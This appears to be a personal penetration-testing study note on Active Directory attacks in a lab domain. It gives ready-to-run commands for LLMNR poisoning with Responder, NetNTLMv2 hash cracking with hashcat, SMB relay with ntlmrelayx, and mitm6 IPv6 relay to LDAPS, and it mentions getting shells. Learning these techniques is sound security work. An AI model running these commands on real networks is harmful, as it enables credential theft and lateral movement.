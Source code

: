 **1 Netbios && LLMNR Name Poisoning**
**2 Relay Attacks**
**3 MITM6**
**4 MS17-010**
**5 Kerberoasting**

---

**1. LLMNR (link local multicasting name resolution:: basically DNS) Poisoning:**

- needs traffic - ideal before nmap/nessus scans
- responder:

  `python /usr/share/responder/Responder.py -L eth0 -rdwv`

  a) try to access attacker IP address::![llmnr_poison](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\admin_malz_llmnr_poison.png)

  ```
  hashcat -m 5600 windowshash.txt /usr/share/wordlists/rockyou.txt # --m 5600 module for NetNTLMv2
  ```

---

**2. SMB Relay attacks:**

- Requirements: SMB signing must be disabled, relayed user creds must be admin on machine, && network sharing enabled
- setup ntlmrelay:: ![ntlmrelay.py](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\ntlmrelay_py.png)
  a) Find machines w/ smb enabled: Nessus or Nmap:

```

```

`/opt/impacket/examples/$ python3ntlmrelayx.py -tf targets.txt -smb2support (-i) #python3 -m pip install . ## -i interactive`

- Working but keeps failing::![revmalz](Screenshots/revshell_smb_malz.png)
  && ![break](Screenshots/malz_smb_breaking.png)
- shells W/ creds:: ![shells](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\meterpreter_psexec_shells.png)
  *wmiexec.py && smbexec.py first! psexec and smb metepreter is very noisy*

---



**3. Pv6 Attacks: DNS relay:**

*Requirements, must have certificate in DC: manage -> add role/feature -> next(3x) -> AD cert services -> CA -> next && restart -> install -> validity period 99yrs*

Setup relay && ipv6 spoofing:

1. `/opt/mitm6/mitm6$ sudo python3 mitm6.py -d carbon.local #(DC) `
3. `/opt/impacket/examples$ sudo python3 ntlmrelayx.py -6 -t ldaps://192.168.86.205 -wh fakewpad.carbon.local -l lootme`
4. `xdg-open /opt/impacket/examples/lootme/domain_users_by_group.html`

![IPv6_relay](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\relay_ipv6.png)

---

4. MS17-010\

---

[tutorial] (https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
[PW list] (https://github.com/danielmiessler/SecLists/tree/master/Passwords)
[impacket] (https://github.com/SecureAuthCorp/impacket)
[mitm6] (https://github.com/dirkjanm/mitm6)\
